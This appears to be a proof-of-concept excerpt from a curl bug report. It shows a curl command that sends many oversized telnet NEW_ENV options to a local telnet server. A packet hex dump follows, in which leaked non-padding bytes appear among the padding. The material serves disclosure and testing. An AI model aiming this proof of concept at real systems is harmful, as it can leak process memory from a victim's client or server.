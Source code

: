 ```
curl -tNEW_ENV=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa -tNEW_ENV=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa -tNEW_ENV=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa -tNEW_ENV=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa -tNEW_ENV=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa -tNEW_ENV=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa -tNEW_ENV=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa telnet://127.0.0.1 <<< foo
```

You'll see something like:

```
        0x0000:  4500 073a 9711 4000 4006 9eaa 7f00 0001  E..:..@.@.......
        0x0010:  7f00 0001 c79c 0017 f499 4092 2173 31a0  ..........@.!s1.
        0x0020:  8018 0200 052f 0000 0101 080a d7e7 b666  ...../.........f
        0x0030:  d7e7 b666 fffa 2700 0061 6161 6161 6161  ...f..'..aaaaaaa
        0x0040:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x0050:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x0060:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x0070:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x0080:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x0090:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x00a0:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x00b0:  6161 6161 6161 6161 0100 0000 0000 0000  aaaaaaaa........
        0x00c0:  0000 0000 0000 0000 0000 0000 0000 0000  ................
        0x00d0:  0000 0000 0000 0000 0000 0000 0000 0000  ................
        0x00e0:  0000 0000 0000 0000 0000 0000 0000 0000  ................
        0x00f0:  0000 0000 0000 0000 0000 0000 0000 0000  ................
        0x0100:  0000 0000 0000 0000 0000 0000 0000 0000  ................
        0x0110:  0000 0000 0000 0000 0000 0000 0000 0000  ................
        0x0120:  0000 0000 0000 0000 0000 0000 0000 0000  ................
        0x0130:  0000 0000 0000 0000 0061 6161 6161 6161  .........aaaaaaa
        0x0140:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x0150:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x0160:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x0170:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x0180:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x0190:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x01a0:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x01b0:  6161 6161 6161 6161 0100 0000 6025 fec0  aaaaaaaa....`%..
        0x01c0:  7c7f 0000 0000 0000 0000 0000 e002 0000  |...............
        0x01d0:  0000 0000 60cd f654 7c55 0000 0088 2975  ....`..T|U....)u
        0x01e0:  780b b94a 0000 0000 0000 0000 c45d b9aa  x..J.........]..
        0x01f0:  fd7f 0000 a05b b9aa fd7f 0000 a05c b9aa  .....[.......\..
        0x0200:  fd7f 0000 2042 f754 7c55 0000 702a f754  .....B.T|U..p*.T
        0x0210:  7c55 0000 0000 0000 0000 0000 148f e7c0  |U..............
        0x0220:  7c7f 0000 3000 0000 3000 0000 505b b9aa  |...0...0...P[..
        0x0230:  fd7f 0000 905a b9aa 0061 6161 6161 6161  .....Z...aaaaaaa
        0x0240:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x0250:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
        0x0260:  6161 6161 6161 6161 6161 6161 6161 6161  aaaaaaaaaaaaaaaa
```